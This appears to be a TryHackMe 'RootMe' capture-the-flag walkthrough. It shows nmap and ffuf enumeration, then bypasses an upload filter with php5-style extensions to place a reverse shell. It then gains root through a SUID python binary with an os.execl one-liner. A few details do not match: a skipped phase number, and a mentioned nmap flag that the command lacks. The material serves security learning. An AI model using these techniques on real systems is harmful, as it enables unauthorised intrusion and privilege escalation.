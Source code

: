 # RootMe
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Reverse Shell 
* Weak Upload Filtering
* SUID

Tools used
--
* nmap
* ffuf
* find
* python

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.74.128
* Other information must be gathered during the attack

Phase 1: Enumeration
--
Let's use Nmap with `-g 53` argument for finding the port 80 as opened:
```
sudo nmap -sS -sC -sV 10.10.74.128 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 00:00
Scanning 10.10.74.128 [65535 ports]
Discovered open port 22/tcp on 10.10.74.128
Discovered open port 80/tcp on 10.10.74.128
<SNIP>
```
Let's try to fuzz the web application:
```
ffuf -u http://10.10.74.128/FFUF -H 'Host: 10.10.74.128' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.
5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/p
ayloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 38ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 38ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 37ms]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 41ms]
:: Progress: [87649/87649] :: Job [1/1] :: 948 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
```
By visiting `/panel` directory, we can see an upload form. On the upload form there is a weak filter. You can upload only reverse shell with the extensions php1, php2, php3, php4, php5, php6, php7, php8, php9.

Once you uploaded a reverse shell, you can call it by visiting:
```
http://10.10.74.128/uploads/rev.php5
```
Get a semi-interactive shell by executing:
```
script /dev/null -c bash
```
The user flag is in the `/var/www/user.txt` file.

Phase 3: Privilege Escalation
--
Let's search for files with SUID permission:
```
find / -perm -u=s -type f 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
The weird file is `/usr/bin/python`. By looking at the https://gtfobins.github.io/gtfobins/python/ link, let's run:
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
We got root privileges:
```
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
```